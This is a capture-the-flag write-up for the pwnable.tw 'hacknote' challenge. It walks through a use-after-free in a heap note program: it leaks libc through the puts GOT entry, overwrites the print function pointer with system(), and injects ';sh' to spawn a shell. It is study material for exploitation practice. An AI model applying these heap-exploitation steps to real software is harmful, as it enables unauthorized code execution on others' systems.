 # hacknote

> Challenge Link: [hacknote](https://pwnable.tw/challenge/#5)
>
> Category: pwn
>
> Writeup: [hacknote](https://github.com/frozenkp/CTF/tree/master/others/pwnable.tw/hacknote)

A good Hacker should always take good notes!

`nc chall.pwnable.tw 10102`

[hacknote](https://pwnable.tw/static/chall/hacknote)

[libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

## Observation

This challenge is a Hacknote. There are 4 features (actually 3) - **Add, Delete, and Print**.

```
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :1
Note size :20
Content :abcd 
Success !
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :3
Index :0
abcd

----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :2
Index :0
Success
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :4
```

I wrote another challenge in `csie.ctf.tw` also called "hacknote" before, and both of these look similar.

In hacknote (csie), this program `malloc` when add and `free` when delete. However, **it didn't set the pointer to `NULL` **. Therefore, we can use add to write something, and use print to run.

What do I mean ? Let's try !

### Experiment

#### Add two notes

I add two notes with size 32 and contents are "aaaa" and "bbbb".

Here is the value on the heap.

```
0x804b000:    0x00000000      0x00000011      0x0804862b    0x0804b018
0x804b010:    0x00000000      0x00000029      0x61616161    0x0000000a     <======= note "aaaa"
0x804b020:    0x00000000      0x00000000      0x00000000    0x00000000
                                            -----------------------------
0x804b030:    0x00000000      0x00000000    | 0x00000000    0x00000011
        -------------------------------------
0x804b040:    0x0804862b      0x0804b050      0x00000000    0x00000029
0x804b050:    0x62626262      0x0000000a      0x00000000    0x00000000     <======= note "bbbb"
0x804b060:    0x00000000      0x00000000      0x00000000    0x00000000
```

Let's focus on note "aaaa".

```
           ------------------------------------------------------
0x804b000: | 0x00000000    0x00000011    0x0804862b  0x0804b018  | <======= struct note
           ---------------------------------------------|--------
                                                        |
                                            -------------
                                            |
           ---------------------------------v--------------------
0x804b010: | 0x00000000    0x00000029    0x61616161  0x0000000a |
0x804b020: | 0x00000000    0x00000000    0x00000000  0x00000000 | <======= content
0x804b030: | 0x00000000    0x00000000                           |
           ------------------------------------------------------
```

The first 8 bytes of each blocks are headers of  heap.

- struct note is 0x10

- `0x0804862b`is print function

  ```
   804862b:       55                      push   ebp
   804862c:       89 e5                   mov    ebp,esp
   804862e:       83 ec 08                sub    esp,0x8
   8048631:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
   8048634:       8b 40 04                mov    eax,DWORD PTR [eax+0x4]
   8048637:       83 ec 0c                sub    esp,0xc
   804863a:       50                      push   eax
   804863b:       e8 90 fe ff ff          call   80484d0 <puts@plt>
   8048640:       83 c4 10                add    esp,0x10
   8048643:       90                      nop
   8048644:       c9                      leave  
   8048645:       c3                      ret
  ```

#### Delete

I delete note "aaaa" (index 0) first, then I delete note "bbbb" (index 1).

Here is the fastbin in heap.

```
(0x10)     fastbin[0]: 0x804b038 --> 0x804b000 --> 0x0
(0x18)     fastbin[1]: 0x0
(0x20)     fastbin[2]: 0x0
(0x28)     fastbin[3]: 0x804b048 --> 0x804b010 --> 0x0
(0x30)     fastbin[4]: 0x0
(0x38)     fastbin[5]: 0x0
(0x40)     fastbin[6]: 0x0
                  top: 0x804b070 (size : 0x20f90) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

#### Reallocate

I add a new note with size **0x8** (0x8 + header = 0x10). Note 2 is allocated to 0x804b038, and it's content is 0x804b000 (original note 0).

```
              ---------------------------------------------------------------
0x804b000:    | 0x00000000      0x00000011      0x61616161      0x0804b00a  | <== content
              ---------------------------------------------------------------
0x804b010:      0x00000000      0x00000029      0x00000000      0x0000000a
0x804b020:      0x00000000      0x00000000      0x00000000      0x00000000
                                             --------------------------------
0x804b030:      0x00000000      0x00000000   |  0x00000000      0x00000011  |
              --------------------------------                              | <== struct
0x804b040:    | 0x0804862b      0x0804b008                                  |
              ---------------------------------------------------------------
```

## Solution

Accroding to the experiment above, we can exploit it by reusing note.

### Leak libc

First, we should leak the base of libc in order to using system().

I choose `puts_got = 0x804a024`to leak.

Because of the size of struct is 0x10, we can only use only 0x8 as content size (0x8 + header = 0x10). Thus, I put `printNote function` and `puts_got`in content to leak base.

After adding note 2, note 0 is like this:

```c
struct note {
    printNote();         // 0x0804862b
      puts_got;         // 0x804a024
}
```

When we print note 0, it will call printNote() then print puts_got.

### System()

Before printing note, this program send address of note as parameter to function.

![](https://i.imgur.com/dYKZzfa.png)

```
                                            -----------------
0x804b000:      0x00000000      0x00000011  |   0x0804862b  |    0x0804b018
                                            -----------------
0x804b010:      0x00000000      0x00000029      0x61616161      0x0000000a
```

What if this function is system() ?? Value from `0x804b008`would be considered as string.

Therefore, we can put something like `;sh` in content. Because string before `;` can not be executed, we have to add a `;` to split it. 

After printing (system), a shell will prompt !!

